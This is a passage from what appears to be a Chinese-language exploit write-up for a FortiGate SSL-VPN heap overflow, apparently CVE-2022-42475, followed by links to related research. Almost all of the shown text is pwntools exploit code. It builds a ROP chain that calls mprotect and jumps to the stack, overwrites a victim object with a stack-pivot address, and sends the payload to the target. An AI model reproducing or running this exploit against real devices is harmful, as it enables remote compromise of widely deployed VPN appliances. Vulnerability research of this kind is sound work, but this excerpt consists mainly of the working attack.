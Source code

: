 ```c
gadget += pwn.p64(0)
gadget += pwn.p64(mov_rdi_rdx_ret)
gadget += pwn.p64(pop_rsi_ret)
gadget += pwn.p64(0x4000)
gadget += pwn.p64(pop_rdx_ret)
gadget += pwn.p64(7)
gadget += pwn.p64(mprotect_plt)
gadget += pwn.p64(jmp_rsp)

gadget += b"\xf8" * 12

assert(len(gadget) <= 192)

victim_obj = gadget
victim_obj += b"\xf2" * (192 - len(victim_obj))
victim_obj += pwn.p64(stack_povit)
payload += victim_obj

exp_sk.sendall(payload)

for sk in socks:
    if sk:
        data = b"b" * 40
        sk.sendall(data)

print("done")
```

‍

‍

相关参考资料
------

1. <https://f01965.com/2021/02/18/fortigate/>
2. <https://f01965.com/2021/02/25/fortigate-Vulnerability/>
3. <https://wzt.ac.cn/2022/12/15/CVE-2022-42475/>
4. <https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn/>

‍